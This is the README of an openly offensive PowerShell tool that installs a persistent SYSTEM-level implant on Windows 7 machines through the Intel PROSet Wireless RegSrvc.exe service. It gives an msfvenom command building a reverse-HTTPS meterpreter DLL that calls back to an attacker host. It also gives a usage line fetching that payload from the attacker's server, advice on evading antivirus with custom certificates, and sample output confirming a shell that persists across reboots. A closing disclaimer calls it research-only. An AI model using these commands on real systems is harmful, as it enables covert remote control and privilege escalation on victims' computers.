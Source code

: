 # Intel_Inside

Intel PROSet Wireless - Persistent SYSTEM Shell Implant (All Versions) (Win 7 - 64bit)

Context: http://x42.obscurechannel.com/?p=378

Requirements: 
1. You have a previously acquired shell (through some other exploit) on a machine as a local admin user, and UAC is set to anything other than "Always Notify".

2. A 64-bit payload:

  `msfvenom -p windows/x64/meterpreter/reverse_https -f dll LHOST=attacker_ip LPORT=443 > RpcRtRemote.dll`
  
3. A place to host your "RpcRtRemote.dll" payload that supports HTTPS (helps with AV heuristics).

4. Generate a proper meterpreter https listener resource file with a custom SSL cert (AV's love custom 
   meterpreter certs): http://bit.ly/2odN6OV

Some bits of this code borrowed from @enigma0x3 (some UAC stuff...)

Takes a url to your "RpcRtRemote.dll" payload as an argument:

`powershell.exe ./intel_inside.ps1 https://yourserver/RpcRtRemote.dll`

```
C:\temp>powershell ./intel_inside.ps1 https://server/RpcRtRemote.dll

[*] Found RegSrvc.exe! Make sure your listener is running.
[+] Checking UAC status.
[*] UAC Status OK and set to 'Default'.
[+] Setting up persistent implant and executing payload.
[*] Done! 'RpcRtRemote.dll' implant successful. Check your shell, run 'getsystem'.
[*] Will persist across reboots and phone home as a SYSTEM shell before user login.

[*] To uninstall:
        - taskkill.exe /IM RegSrvc.exe /F
        - del "C:\Program Files\Common Files\Intel\WirelessCommon\RpcRtRemote.dll"
C:\temp>
```
This proof-of-concept is provided for research purposes only. The author is in no way responsible for any misuse of the proof-of-concept code nor is the author responsible for any damage, directly or indirectly, that could potentially arise from the use of the included code. Unauthorized use of the proof-of-concept code against a system that you do not own is a horrible idea and probably illegal. Use at your own risk.
